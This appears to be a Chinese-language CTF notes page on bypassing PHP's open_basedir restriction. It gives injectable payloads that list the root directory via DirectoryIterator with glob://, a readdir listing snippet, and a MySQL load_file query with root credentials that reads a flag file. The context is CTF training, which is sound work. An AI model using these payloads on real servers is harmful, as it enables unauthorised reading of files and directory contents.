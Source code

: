 ## open_basedir 绕过

`open_basedir` 是 php.ini 中的一个配置选项，它可将用户访问文件的活动范围限制在指定的区域。

假设`open_basedir=/home/wwwroot/home/web1/:/tmp/`，那么通过web1访问服务器的 用户就无法获取服务器上除了`/home/wwwroot/home/web1/`和`/tmp/`这两个目录以外的文件

### glob 绕过

**利用 DirectoryIterator + glob://**

`DirectoryIterator` 类提供了一个简单的界面来查看文件系统目录的内容。

```python
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

CTFshow web72 获取根目录：

```python
c=$a = new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString().'<br>');};exit();
```

### **`opendir`、`readdir` 和 `closedir` 函数**

```python
<?php
$arrFiles = array();
$handle = opendir('/path/to/directory');
 
if ($handle) {
    while (($entry = readdir($handle)) !== FALSE) {
        $arrFiles[] = $entry;
    }
}
 
closedir($handle);
```

### mysql load_file

```python
c=$con = mysqli_connect('127.0.0.1','root','root');$result = mysqli_query($con,"SELECT load_file('/flag36.txt')"); while ($row = mysqli_fetch_assoc($result)){var_export($row);};exit();
```

---